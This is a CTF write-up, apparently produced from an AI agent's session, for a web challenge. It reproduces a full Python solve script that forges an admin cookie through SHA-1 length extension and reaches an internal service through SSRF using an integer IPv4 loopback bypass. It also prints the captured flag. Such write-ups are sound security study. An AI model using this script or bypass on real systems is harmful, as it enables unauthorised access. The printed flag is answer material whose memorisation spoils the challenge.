



# Writeup : chronos-operation-dawn-stand

Catégorie : web

Date de résolution : 2026-11-07

Technique principale : SHA-1 length extension; SSRF integer IPv4 loopback bypass

Outils observés : hash_extender,requests

Cible : assigned #9115 instance only

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-operation-dawn-standing-order. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Contexte

#9115 Operation Dawn: The Standing Order; assigned instance only. Challenge CTFd submission was accepted as correct (`status=correct`), and API verification showed `solved_by_me=true`, `attempts=1`.

### Exploitation

1. Got operator cookie `hex(payload).sha1` from `/`.
2. SHA-1 length-extension with 16-byte secret length appended `&role=admin`, granting `/relay` access.
3. Admin page disclosed `/relay/probe` and internal order service on `127.0.0.1:9091`.
4. Literal loopback was blocked, but probe accepted integer IPv4 `2130706433`; `GET /relay/probe?target=http://2130706433:9091/order` returned the flag.

### Pourquoi ça marche

Cookie SHA1(secret||payload) permits appending `&role=admin`; integer IPv4 `2130706433` bypasses a literal loopback denylist. Captured flag: `CSCTF{nS72DfV6pZFRAKQt6RRhmcbg}`. CTFd responded `{"status":"correct","message":"Correct"}`; follow-up challenge API confirmed solved.

### Pièges

Validate normalized and resolved IP addresses; instance stopped responding post-solve but was not stopped by agent.

### Notes locales conservées

# #9115 :  Operation Dawn: The Standing Order

## Triage / recon
1. Assigned instance only: `http://w01.ctf.chronos-security.ro:38489`; CTFd challenge ID 9115. No other challenge host contacted and no instance stopped.
2. `/` sets `session=<hex(payload)>.<sha1>` for `user=guest&role=operator`; `/relay` returns 403 for operator.
3. Admin relay page discloses `node1: 3.relay.internal`, `http://127.0.0.1:9091/order`, and GET `/relay/probe?target=...`.

## Exploit
4. Signature is SHA-1(secret || payload), permitting SHA-1 length extension. `hash_extender` with secret length 16 and appended `&role=admin` produces an accepted admin cookie.
5. Probe rejects literal `127.0.0.1` and `localhost`, but fails to reject the equivalent integer IPv4 form `2130706433` (also `127.1`).
6. `GET /relay/probe?target=http://2130706433:9091/order` reaches loopback provisioning service and returns the order/flag.

## Flag and verification
7. Retrieved live from the assigned instance: `CSCTF{nS72DfV6pZFRAKQt6RRhmcbg}`.
8. Submitted to CTFd challenge 9115 using the authenticated session and page `csrfNonce` header.
9. CTFd response: `{"status":"correct","message":"Correct"}`; subsequent challenge API reports `solved_by_me=true`, `attempts=1`.
10. After successful submission, the assigned endpoint began refusing connections. No stop request was issued; no further instance interaction attempted.

## Hypotheses / outcome
1. Cookie role escalation: confirmed via SHA-1 length extension.
2. Internal SSRF to standing-order service: confirmed via integer IPv4 loopback alias.
3. Exposed node hostnames alone: probes returned 502; unnecessary after the loopback route succeeded.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-operation-dawn-standing-order
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
"""Reproduce #9115's SHA-1 length-extension admin cookie and probe relay URLs.

Only contacts the explicitly assigned instance. Requires hash_extender.
"""
import argparse
import re
import subprocess
import requests


def admin_session(base: str) -> requests.Session:
    s = requests.Session()
    r = s.get(base + "/", timeout=10)
    raw = r.cookies.get("session")
    if not raw:
        raise RuntimeError("no session cookie")
    data_hex, sig = raw.split(".", 1)
    data = bytes.fromhex(data_hex).decode()
    for keylen in range(1, 65):
        out = subprocess.check_output([
            "hash_extender", "--data", data, "--signature", sig,
            "--format", "sha1", "--append", "&role=admin",
            "--secret", str(keylen),
        ], text=True, stderr=subprocess.DEVNULL)
        new_sig = re.search(r"New signature: ([0-9a-f]+)", out).group(1)
        new_data = re.search(r"New string: ([0-9a-f]+)", out).group(1)
        s.cookies.set("session", new_data + "." + new_sig)
        check = s.get(base + "/relay", timeout=10)
        if check.status_code == 200 and "Node status probe" in check.text:
            print(f"[+] forged admin session (secret length {keylen})")
            return s
    raise RuntimeError("length-extension admin forgery failed")


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("base", help="assigned instance base URL")
    ap.add_argument("--target", action="append", default=[])
    args = ap.parse_args()
    s = admin_session(args.base.rstrip("/"))
    urls = args.target or [
        "http://127.0.0.1:9091/order",
        "http://node1.relay.internal/",
        "http://node1.relay.internal/order",
        "http://node2.relay.internal/order",
        "http://node3.relay.internal/order",
    ]
    for target in urls:
        r = s.get(args.base.rstrip("/") + "/relay/probe",
                  params={"target": target}, timeout=10)
        flag = re.search(r"CSCTF\{[^}]+\}", r.text)
        msg = re.search(r"<pre class='lock'>(.*?)</pre>", r.text, re.S)
        if flag:
            print(f"[FLAG] {flag.group(0)} (target={target})")
        else:
            detail = re.sub(r"<[^>]+>", "", msg.group(1)) if msg else r.text[:300]
            print(f"[{r.status_code}] {target}: {detail}")


if __name__ == "__main__":
    main()
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{nS72DfV6pZFRAKQt6RRhmcbg}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
